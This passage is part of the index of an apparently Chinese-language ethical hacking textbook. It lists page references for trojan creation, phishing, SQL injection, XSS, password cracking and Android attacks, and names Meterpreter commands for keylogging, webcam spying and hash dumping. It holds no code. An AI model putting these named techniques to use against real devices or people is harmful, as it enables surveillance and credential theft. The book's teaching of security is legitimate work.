结构，100
`databases` (Android) 文件夹，118
Delpy, Benjamin，78
字典攻击，80，82–84
`dir` (目录) 命令，13
dorking，38
`download` 命令，64，120
下载安全，137
`dump_calllog`，115
`dump_contacts`，115
`dump_sms`，115
翻垃圾箱，85
DVWA 参见 Darn Vulnerable Web App (DVWA)

## E
EFI 密码，20
电子邮件账户和密码，7，138
电子邮件钓鱼，50–52，137
加密
文件和文件夹，20，139
密码，74，137
Equifax 数据泄露，91
转义字符，103
道德黑客，xvi
机会，38–39，126，140
渗透测试，44
与远程黑客相比，54
技能和行为，xvi–xvii，10，52，104，134
工具，27
评估软件，143
可执行文件，56
exif 图像元数据，39，40
`exit` 命令，65
利用，54，58
`ext:` 操作符，33，34，36

## F
文件扩展名，33
文件。另见 文件夹
可执行，56
破解 Android VM，117–120
破解 Windows VM，63–65
恶意，70，137
权限，119
保护，138–139
FileVault，139
Firefox 浏览器，隐私窗口，7
防火墙，59，70，139
固件密码，20
fodhelper 程序，77–78
文件夹
Android，117–118
网页，56
Windows，13
format (`-f`) 选项，56
表单
字段验证和清理，103–104
登录克隆，47–48

## G
`getsystem` 命令，78
`getuid` 命令，78
GHDB (Google Hacking Database)，37–38
全球定位系统 (GPS) 坐标，39，40
Gmail 应用删除示例，119
Google dorks，38
Google 黑客技术，31，33–38
Google Hacking Database (GHDB)，37–38
Google Play Protect，110，122
Google 搜索
操作符，33，37
查询数据库，37–38
作为侦察，32–33
关于用户名和密码，34–39
GPS (全球定位系统) 坐标，39，40
客户机，21
`gunzip` 命令，82

## H
黑客和黑客。另见 道德黑客，xv，xvi
避免的十个技巧，135–141
白帽 vs. 黑帽，xvi–xvii
加固，xvi
哈希函数 (密码学)，74
哈希 参见 密码哈希
Hashes.com 数据库，80–81
`help` 命令，61
十六进制数系统，130
`hide_app_icon` 命令，121
主机密钥，23
主机，21
仅主机网络，26
HTML 参见 HyperText Markup Language (HTML)
`htmlspecialchars` 命令，104
Hyper-V，150–151
超链接 参见 链接
HyperText Markup Language (HTML)
在跨站脚本示例中，96–100
密码安全，5

## I
ICSim 参见 Instrument Cluster Simulator (ICSim)
图像元数据，40
映像 (操作系统)，145
隐身模式，7
`<input>` 标签，5
输入验证和清理，103–104
Inspect 工具，2–6
Instrument Cluster Simulator (ICSim)，126
下载和安装，126
运行，129–131，132
interact (`-i`) 选项，61
物联网 (IoT)，125–126，132
Internet Protocol (IP) 地址，26
`intext:` 操作符，38
IoT (物联网)，125–126，132
`ip a` 命令，76
`ip addr` 命令，27，54，76
`ip config` 命令，28
IP (Internet Protocol) 地址，26
`is_numeric` 命令，104
ISO 文件，145

## J
JavaScript 跨站脚本示例，96–100
Jeffrey's Image Metadata Viewer，40
John the Ripper，81–84
Johnny (GUI)，81–84

## K
Kali Linux VM
连接到虚拟网络，27
创建，22–23
运行 VM，23–25
输入特殊字符，88


## L

更新操作系统，29

`keyscan_dump` 命令，68

`keyscan_start` 命令，67

`keyscan_stop` 命令，68

击键记录，67–68

孩子与父母的通信，140

`Kismet` 无线嗅探器，132

`kiwi` 模块，78

Knoppix，19

链接

复制，35

可疑的，51，52，122

Linux。*另请参阅* Kali Linux VM

在其中输入特殊字符，88

列表（`ls`）命令，117，131

位置数据，*39*，40

锁屏设置，7

日志记录（`-l`）选项，131

登录页面

克隆，47–48

安全性，48–49，52

Long, Johnny，37

低垂果实概念，*70–71*

`ls`（列表）命令，117，131

`lsa_dump_sam` 命令，78

## M

Mac 电脑。*另请参阅* macOS

重新启动，18

Mac Root 攻击，17–19

macOS

加密，139

在其中输入特殊字符，88

VirtualBox 故障排除，149–150

`MainActivity` 应用，111，113，121

恶意软件。*另请参阅* 木马；病毒，33，34，*53*，70–71

万豪数据泄露，91

掩码攻击，*80*，85–87

掩码，*86*

Metasploit Framework。*另请参阅* Meterpreter shell

关于，54

`Mimikatz` 模块，78–79

`msfconsole`，54–58

查看会话，61

Metasploitable Web 服务器，92–93

`Meterpreter` shell

为其添加排除项，64

Android 有效载荷，108–109

命令，61–62，112

文件破解，63–65

记录击键，67–68

重新启动会话，113

查看计算机屏幕，65–67

网络摄像头间谍，68–70

Windows 有效载荷，58，61，75–76

Microsoft Edge 开发者网站，25

`Mimikatz` 工具，78–79

`mkdir`（创建目录）命令，56

移动应用安全，110–111，114，122，137

移动设备。*另请参阅* Android apps；Android mobile device attack project

摄像头劫持，116–117

防御，122

位置数据，40

在其中输入特殊字符，88

鼠标集成，108

Mousepad 文本编辑器，79

`msfconsole`，54–58

`msfvenom` 工具，55–56，108

多因素身份验证，8，88，138

multi/handler 漏洞利用，58

`mysql_real_escape_string` 函数，103

## N

`net` 命令，14–15，75

`netsh` 工具，59

网络。*另请参阅* `PublicNAT`

安全实践，138

虚拟，*26*

NTLM（新技术局域网管理器）格式，*79*，83–84

## O

Offensive Security，37

车载诊断，version two (OBD-II) 端口，*134*

Open Sesame! 攻击，19

OpenGarages，126

操作系统。*另请参阅* Linux；macOS；Windows 10

更新，29–30，70，138

`OR` 运算符，*33*，100–101

输出（`-o`）选项，56

## P

`p7zip-full`，106

数据包嗅探器，*129*

数据包，*129*

父母与孩子的通信，140

密码短语，7，75，88，137

`passwd` 命令，18

密码破解项目，80–87，89

字典攻击，82–84

安装 Johnny GUI，81–82

掩码攻击，85–87

在线密码数据库，80–81

密码哈希解决方案，89

密码数据库和列表，35–39，80–81

密码哈希，*74*，79，80–81

密码管理器，8，88，137–138

密码窃取项目，74–80

创建 Windows 用户，75

入侵 Windows VM，75–76

获取管理员级访问权限，76–78

窃取密码哈希，78–80

密码。*另请参阅* 密码破解项目；密码窃取项目

固件，*20*

收集，47，100–102

Mac 用户，18

报告被黑，38–39

重置，15

揭示被遮蔽的，2–7

安全实践，6–8，85，88–89，137–138

VM 默认设置，23，26，93

易受攻击的，73

有效载荷，*58*，108–109

渗透测试（pentesting），*44*

权限。*另请参阅* 管理员级访问

文件，119

移动应用安装，110–111，122

来自所有者，xvi–xvii


网络钓鱼。*另见* 网站钓鱼项目，*32*，*43*，44，51–52，137

回拨，57–58，60

照片位置数据，40

PHP 验证和清理函数，103–104

物理访问攻击。*另见* Mac root 攻击；Sticky Keys 攻击，*9–10*，19–20

物理安全技术，136

Play Protect 安全，110–111

plist，*18*

信息隐私，136，137，138

私有窗口，7

权限提升，*77*

PublicNAT
将虚拟机连接到，27，28，55
创建，26

`pwd` (打印工作目录) 命令，61

## Q
查询，*100*

Quest Diagnostics 数据泄露，91

## R
勒索软件，*34*

RATs (远程访问木马)，*54*

`reboot` 命令，18

重启
Mac 计算机，18
移动设备，122

侦察 (recon)，*31*
高级 Google 技术，33–38
道德的，38–39
自我搜索，32–33
社交媒体，39–40

恢复技术。*另见* Sticky Keys 攻击
Mac root 攻击，17–19
密码，2–7
Windows 10 镜像，143–147

反射型 XSS 攻击，96–97

远程访问木马 (RATs)，*54*

远程攻击项目，53–70
方法，53–54
创建木马，54–56
部署木马，56–58
攻击文件，63–65
感染 Windows VM，58–60
记录击键，67–68
通过网络摄像头监视，68–70
启动会话，61
查看计算机屏幕，65–67

重放攻击，*132*

报告
网络犯罪，136
被盗密码，38–39

`rm` 命令，119

RockYou 词表，82，83–84

root 用户访问，*17*

Rubber Ducky，19

## S
Safari 私密窗口，7

屏幕显示重新缩放，24，93

屏幕保护程序设置，7

`screenshare` 命令，66–67

`screenshot` 命令，65

`<script>` 标签，96

搜索运算符，*33*

搜索查询，*37*

搜索结果历史，117–118，119–120

搜索 *见* Google 搜索

通过混淆实现安全，*1–2*

`SELECT` 查询，100

`service` 命令，57

会话，*60*，61，77–78，113

`sessions` 命令，61

SET *见* 社会工程工具包 (SET)

`set_audio_mode` 命令，120

7-Zip，106

`shell` 命令，64，117

单用户模式，*17*

`site:` 运算符，*33*，36–37

Site Cloner，47

智能手机 *见* Android 移动设备攻击项目；移动设备

Smith, Craig (zombieCraig)，126，134

社会工程，*43*，44，136

社会工程工具包 (SET)，*44*
克隆登录页面，47–48
凭据收割，49–50
设置，44–47

社交媒体分享，39–41，136

软件。*另见* 移动应用
评估副本，*143*
安全实践，70–71，137，138
源代码 (网页)，*2*，103–104

SQL 注入 (SQLi) 攻击，100–103

Sticky Keys 功能，10

Sticky Keys 攻击，10–17
从安装光盘启动，10–12
获得管理员级访问权限，13–15
以管理员身份登录，15–17

存储型 XSS 攻击，97–100

`stripslashes` 命令，103–104

结构化查询语言 (SQL)。*另见* SQL 注入攻击，100–102

`su` (超级用户访问) 命令，118

`sudo` (以超级用户执行) 命令，29

超级用户权限，29，118

`sysinfo` 命令，61

系统级访问 *见* 管理员级访问；Mac root 攻击；超级用户权限

SystemRescueCD，19

## T
时间戳，*130*

Trinity Rescue Kit，19

木马。*另见* 恶意软件；远程攻击项目；病毒，*54*
后门，*65*
创建，54–58
下载和运行，59–60
在 Android 应用中安装，108–111
回拨，57–58，60

双因素认证，8，88，138

## U
Ubertooth One Bluetooth 无线嗅探器，132

UEFI 固件设置，152–153

Ultimate Boot CD，19

Unarchiver 应用，25

Unicode 字符代码，88

统一资源标识符 (URI) 字符串，*113*

`union` 命令，102

`upload` 命令，63

URLs *见* 链接

USB 驱动器
下载镜像到，145–147
物理攻击，19

用户账户
访问 Mac，18
在 Windows VM 中创建，75


和敏感工作，138–139

用户名 *参见* 凭据收集

## V

VCAN（虚拟 CAN）总线网络，*127*

VeraCrypt，139

`view` (`-v`) 选项，65

虚拟机（VMs）。*另请参见* Android VM；Kali Linux VM；Metasploitable Web 服务器；Windows 10 VM，*21*

虚拟网络。*另请参见* PublicNAT，*26*

虚拟专用网络（VPNs），*139*

VirtualBox
下载和设置，22
故障排除，149–153
虚拟网络创建，26–29

虚拟化软件，*21*

病毒。*另请参见* 恶意软件；特洛伊木马
预防措施，58，70–71
Windows Defender 保护，59，60

VirusTotal，35–36，81，137

VMs *参见* 虚拟机（VMs）

VPNs（虚拟专用网络），139

## W

`wakelock` 命令，112

Web 应用程序安全，103–104

Web 文件夹，56

Web 黑客项目，92–104
跨站脚本攻击，96–100
Darn Vulnerable Web App，94–95
Metasploitable VM 设置，92–93
保护 Web 应用程序，103–104
SQL 注入攻击，100–103

Web 链接 *参见* 链接

`webcam_list` 命令，69，116

`webcam_stream` 命令，69，116

网络摄像头间谍，68–70

网站钓鱼项目，44–51
克隆登录页面，47–48
创建电子邮件，50–51
凭据收集，48–50
设置 VM，44–47

白帽黑客 *参见* 道德黑客

Wi-Fi 安全实践，136，138

通配符，*85–86*，87

Windows 10
从安装光盘启动，10–12
烧录到 DVD，145
评估版下载，144–145
安装到 USB 闪存驱动器，145–147

Windows 10 VM
连接到虚拟网络，28–29
创建，25–26
在其中创建用户，75
在其中禁用安全，59，60
更新操作系统，30
VirtualBox 故障排除，150–153

Windows 计算机
加密，20，139
Sticky Keys 功能，10
在其中输入特殊字符，88
漏洞，77–78

Windows Defender，59，60，64，68

Windows 文件夹，13

`Windows_hashes.txt` 文件，79–80

Windows Media Creation Tool，145–147

词表攻击，82–84

## X

XSS（跨站脚本）攻击，96–100

## Y

Yahoo! 数据泄露，91

Youtube 搜索历史示例，119–120

## Z

ZIP 文件实用工具，25，106
